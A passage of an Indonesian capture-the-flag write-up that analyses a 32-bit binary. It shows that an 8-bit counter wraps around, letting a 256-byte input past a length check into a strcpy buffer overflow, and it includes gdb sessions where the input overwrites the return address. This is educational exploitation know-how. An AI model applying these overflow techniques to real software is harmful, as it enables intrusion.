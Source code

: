 Terdapat fungsi flag, yang sepertinya akan menampilkan flag.

Pada program ini, input kita diterima dengan scanf (aman dari buffer overflow), jadi di fungsi main tidak bisa kita overflow return addressnya, setelah menerima input, program memanggil fungsi check. Di fungsi check ini, register `al` digunakan sebagai counter untuk menghitung jumlah karakter pada input kita. Jika isi `al` kurang dari atau sama dengan 0x34, maka input dianggap aman dan program lanjut ke fungsi cpy, jika tidak, maka input dianggap berbahaya lalu program exit.

Di fungsi cpy ini terdapat celah buffer overflow karena penggunaan fungsi `strcpy` yang tidak membatasi jumlah karakter yang dicopy. namun input kita diletakkan pada `ebp-0x30`, berarti butuh 0x38 bytes karakter jika kita ingin overwrite return address dari fungsi cpy. Namun seperti pada penjelasan di atas, register `al` sebagai counter karakter dicek dulu apakah kurang dari 35 atau tidak sebelum bisa masuk ke fungsi cpy.

#### Kelemahan
Kelemahan program ini ada pada penggunaan register `al` untuk counter. Register ini memiliki nilai maksimal hingga 0xff saja, setelah melebihi nilai ini, `inc eax` akan membuat nilai register `eax` menjadi 0x100, sehingga nilai `al` menjadi 0x00. Dan ini akan lolos dari pengecekan. 

#### Test input dengan 0x100 karakter
```
gdb-peda$ break *0x8049211
Breakpoint 1 at 0x8049211

gdb-peda$ r < <(python -c "print 'A'*0x100")

[-------------------------------------code-------------------------------------]
   0x804920d <check+29>:	test   bl,bl
   0x804920f <check+31>:	jne    0x8049209 <check+25>
   0x8049211 <check+33>:	cmp    al,0x34
=> 0x8049213 <check+35>:	jbe    0x804921c <check+44>
 | 0x8049215 <check+37>:	push   0x0
 | 0x8049217 <check+39>:	call   0x8049070 <exit@plt>
 | 0x804921c <check+44>:	push   edx
 | 0x804921d <check+45>:	call   0x8049228 <cpy>
 |->   0x804921c <check+44>:	push   edx
       0x804921d <check+45>:	call   0x8049228 <cpy>
       0x8049222 <check+50>:	add    esp,0x4
       0x8049225 <check+53>:	nop
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
```

Terlihat bahwa `JUMP is taken`, berarti kita akan masuk dalam fungsi cpy dengan argumen input kita.

```
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414141
[------------------------------------stack-------------------------------------]
0000| 0xffffcea4 ('A' <repeats 200 times>)
0004| 0xffffcea8 ('A' <repeats 196 times>)
0008| 0xffffceac ('A' <repeats 192 times>)
0012| 0xffffceb0 ('A' <repeats 188 times>)
0016| 0xffffceb4 ('A' <repeats 184 times>)
0020| 0xffffceb8 ('A' <repeats 180 times>)
0024| 0xffffcebc ('A' <repeats 176 times>)
0028| 0xffffcec0 ('A' <repeats 172 times>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
```
